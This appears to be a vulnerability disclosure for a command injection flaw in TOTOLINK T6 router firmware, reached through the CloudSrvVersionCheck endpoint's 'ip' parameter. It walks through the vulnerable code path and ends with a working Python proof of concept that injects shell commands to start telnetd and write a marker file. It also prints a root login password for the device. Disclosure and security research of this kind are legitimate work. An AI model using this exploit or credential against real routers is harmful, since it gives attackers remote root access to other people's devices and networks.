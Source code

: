 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a command injection vulnerability. This vulnerability can be triggered through the topicurl `CloudSrvVersionCheck`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

Here is the code that handle request to topicurl `CloudSrvVersionCheck`. If `type` is 1, the `ip` parameter is passed to funcion `safe_cs_pub` as the first param

![image-1](4/1.png)

Function `safe_cs_pub` pass first param (domain) to `tcpcheck_net` function for further processing

![image-2](4/2.png)

In `tcpcheck_net` function, there is a command injection vulnerability. Program use call `tcpcheck` with system. If we can control `domain` param, we can inject the code to `system`

![image-3](4/3.png)

# POC

```python
import requests, time, sys, os

def execute_command(target_ip, cmd):
    http_sv = "http://%s/cgi-bin/cstecgi.cgi" % target_ip
    
    payload = '''
    {
        "topicurl":"CloudSrvVersionCheck",
        "type":"1",
        "ip":";%s;"
    }
    ''' % cmd
    
    res = requests.post(http_sv, data=payload)
    
    if res.status_code == 200:
        return True
    else:
        return False
        
if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("[-] Usage: <%s> target_ip" % sys.argv[0])
        exit(0)
    
    target_ip = sys.argv[1]
    
    print("[+] Try telnet %s with root/KL@UHeZ0. Also check '/tmp/hacked'" % target_ip)
    execute_command(target_ip, "telnetd; echo Pwned by Elvis > /tmp/hacked")
```

[Video](https://www.youtube.com/watch?v=MMIggqnj28E)

# Credits

[Reisen_1943](https://anduinbrian.github.io/). He helped me to setup the device and found the login information for root account.